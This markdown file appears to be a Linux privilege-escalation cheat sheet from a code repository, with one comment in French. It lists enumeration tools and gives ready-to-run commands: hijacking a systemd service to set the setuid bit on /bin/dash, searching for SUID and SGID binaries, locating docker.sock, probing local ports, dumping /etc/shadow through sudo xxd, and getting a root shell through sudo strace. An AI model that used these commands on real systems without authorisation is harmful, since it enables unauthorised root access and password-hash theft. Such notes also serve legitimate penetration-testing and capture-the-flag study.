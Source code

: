 # Priv-Esc Linux

## Tools 

- [lse.sh](https://github.com/diego-treitos/linux-smart-enumeration)
- [LinEnum](https://github.com/rebootuser/LinEnum)

## Systemd

```bash
echo -e '#!/bin/bash\nchmod 4755 /bin/dash' > /tmp/priv.sh 
vi /lib/systemd/system/debug.service 
edit line : ExecStart in `/tmp/priv.sh
reboot
```

## Programms running

```bash
ps -aux | grep root
https://github.com/DominicBreuker/pspy 
```

## Services listening

```bash
netstat -latupen | grep LISTEN
netstat -nlt | awk -F : '/\<tcp\>/ {split($2,a," "); print a[1]}' | xargs -I % bash -c 'echo -ne "\033[1;33m[+]\033[m Port %:\t$(timeout 1 cat </dev/tcp/127.0.0.1/%)\n"'
netstat -nlt | grep 'tcp ' | grep -Eo "[1-9][0-9]*" | xargs -I {} sh -c "echo "" | nc -v -n -w1 127.0.0.1 {}"
```

## Docker

```bash
find / -group docker -exec ls -la {} 2>/dev/null \;
=> on cherche le docker.sock
```

## Binaries enum

```bash
find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \; find / -perm -g=s -o -perm -u=s -type f 2>/dev/null
```

## Hash dump

```bash
sudo xxd /etc/shadow | xxd -r
```

## Strace root

```bash
sudo strace -o /dev/null /bin/sh
```

